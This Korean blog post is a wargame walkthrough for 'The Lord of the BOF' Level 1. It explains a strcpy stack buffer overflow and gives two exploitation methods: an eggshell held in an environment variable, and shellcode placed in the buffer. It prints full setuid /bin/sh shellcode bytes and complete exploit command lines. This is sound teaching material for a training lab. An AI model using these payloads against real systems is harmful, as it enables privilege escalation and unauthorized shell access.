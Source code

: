 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 1"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/ftz/level1/1.jpg" | relative_url }}' alt='relative'>  

## 1) gate/gate 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level1/2.png" | relative_url }}' alt='relative'>  

코드 내용을 보니 argv가 2보다 작은지 조건 검사를 하기 때문에 프로그램 실행 시 인자를 넣어줘야 합니다.  
argv[1]에 입력한 내용을 buffer 배열에 입력하는 데 strcpy 함수를 사용하여 취약점이 생겼습니다.  
입력받는 문자열 길이에 제한을 두지 않아 buffer 배열의 길이인 256 바이트 이상의 문자열을 입력할 수 있습니다.  

## 2) BOF 전처리 과정    

### (0) gremlin 스택 구조 확인하기  

<img data-action="zoom" src='{{ "assets/lob/level1/3.png" | relative_url }}' alt='relative'>  

``` bash
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
```

위의 어셈블리어 코드를 보니 buffer 배열의 위치가 ebp 레지스터에서 256 바이트 떨어진 주소에 위치합니다.  
그러면 RET이 위치한 주소는 문자열 배열 시작 주소에서 256(buffer) byte + 4(SFP) byte에 위치합니다.  

### (1) Eggshell  

FTZ 문제를 풀었다면 이 문제는 쉽게 해결할 수 있습니다.  
- <a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html">쉘코드 만드는 방법</a>  
- <a href="https://hsong2.github.io/ftz/2021/05/31/Hacker-School-FTZ-Level-12.html#env">환경변수에 쉘코드 저장</a>  

위의 내용을 참고하여 쉘코드를 환경변수에 저장하였습니다.  

``` c
// Shellcode (setuid 포함, 39 byte)
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

// Shellcode (setuid 미포함, 25 byte)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

``` bash
./getenv
```

<img data-action="zoom" src='{{ "assets/lob/level1/4.png" | relative_url }}' alt='relative'>  

RET 위치에 쉘코드가 저장된 환경변수의 주소를 넣어주면 됩니다.  

Eggshell 방식을 사용했을 때 공격 페이로드는 다음과 같습니다. (마지막 환경변수 주소는 본인에 맞게 수정하세요.)  

``` bash
./gremlin `python -c 'print "\x90"*260+"\xab\xfd\xff\xbf"'`
```

### (2) buffer 배열에 shellcode 입력  

buffer 배열에 쉘코드를 입력하고 RET에 buffer 배열의 주소를 입력하면 됩니다.  

우선 gdb로 프로그램을 실행해보기 위해 새로운 프로그램 하나를 만들었습니다.  

```bash
gcc -o test gremlin.c
```

0x8048466 <main+54> 이 주소에 break를 걸고 test 프로그램을 gdb로 실행하였습니다.  
그리고 break가 걸려있을 때 레지스터 정보를 확인하였습니다.  

``` bash
gdb -q ./test

set disassembly-flavor intel

b *main+54

r `python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*31+"AAAA"'`

info registers
```

gdb로 test 프로그램을 2번 실행해봤는데 ebp 레지스터의 값은 두번 다 동일하였습니다.  
프로그램 실행할 때마다 스택 메모리 주소가 바뀌는 BOF 보호 기법이 적용되지 않았습니다.   

<img data-action="zoom" src='{{ "assets/lob/level1/5.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level1/6.png" | relative_url }}' alt='relative'>  

프로그램 실행 시마다 메모리에 프로세스가 배치될 위치가 랜덤으로 정해지는 ASLR(Address space layout randomization) 기법이 적용되지 않았습니다.  
스택 메모리 주소가 바뀌지 않는다면 buffer 배열의 주소는 ebp 레지스터에 저장된 주소 값에 256을 뺀 0xbffff928 입니다.  
0xbffffa28 - 0x100(=256) = 0xbffff928

<img data-action="zoom" src='{{ "assets/lob/level1/7.png" | relative_url }}' alt='relative'>  

buffer 배열에 shellcode를 입력하는 방식을 사용했을 때 공격 페이로드는 다음과 같습니다.  

``` bash
./gremlin `python -c 'print "\x90"*200+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*21+"\x28\xf9\xff\xbf"'`
```

## 3) BOF 시도  

### (1) Eggshell 방식 결과  

<img data-action="zoom" src='{{ "assets/lob/level1/8.png" | relative_url }}' alt='relative'>  

### (2) buffer 배열에 shellcode 입력 방식 결과  

<img data-action="zoom" src='{{ "assets/lob/level1/9.png" | relative_url }}' alt='relative'>  

## 4) 공격 페이로드를 정확히 입력했는데도 공격이 성공하지 않는 경우!!!  

bash2 쉘로 실행하면 수행됩니다.  

``` bash
bash2
```

<img data-action="zoom" src='{{ "assets/lob/level1/10.png" | relative_url }}' alt='relative'>  